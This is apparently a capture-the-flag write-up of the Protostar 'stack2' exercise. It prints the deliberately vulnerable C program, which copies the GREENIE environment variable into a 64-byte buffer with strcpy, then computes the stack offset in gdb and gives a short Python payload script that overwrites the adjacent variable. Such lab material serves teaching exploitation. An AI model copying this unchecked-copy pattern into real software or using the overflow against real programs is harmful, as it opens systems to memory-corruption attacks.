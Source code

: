 # Stack2 Challenge

First let's login to the **protostar VM** through ssh and navigate to **/opt/protostar/bin** to locate the challenge.
The source code for the challenge is very helpful and available <a href="https://exploit-exercises.lains.space/protostar/stack2/">here.</a>

Let's take a look

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
**Important note:** From this challenge onwards the classic version of gdb will be used since the protostar VM doesnt have **gef** and I had no luck installing it.

As you can see the code now doesn't ask us for a command line argument but for an **envieronment** variable named **GREENIE**. We have to set this variable to not get an error message. Next the challenge is pretty much the same as the first one, and you can find a more detailed writeup <a href="https://github.com/astasinos/Writeups/tree/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack1">there</a>.

We somehow must set the **modified** variable from **0** to **0x0d0a0d0a**.

We also notice that the value in the environment variable is copied in the buffer.

Let's first set the **GREENIE** variable and then fire up gdb in the **VM** and set the assembly syntax to our familiar **intel**. (Try disassembling main without changing syntax and you will see that the asssembly syntax is not what you usually see).


<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack2/images/start_stack2.png">    

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack2/images/disas_main_st2.png">

Taking a closer look

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack2/images/explend.png">  

So our buffer starts at **esp+0x18** and **modified** is at **esp+0x58** . **0x58 - 0x18 = 64** . So we will need **64** bytes of junk and then whatever **4** bytes we input next will overwrite **modified**. 

Create a simple python script to do the job for us 

```python                                  

#!/usr/bin/env python
from struct import pack

prepend = b"A" * 64
prepend += pack("<L",0x0d0a0d0a)   # pack desired value as Little Endian
print prepend
```

Now lets set **GREENIE** to the right value and execute.

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack2/images/end_st2.png">

### Success!


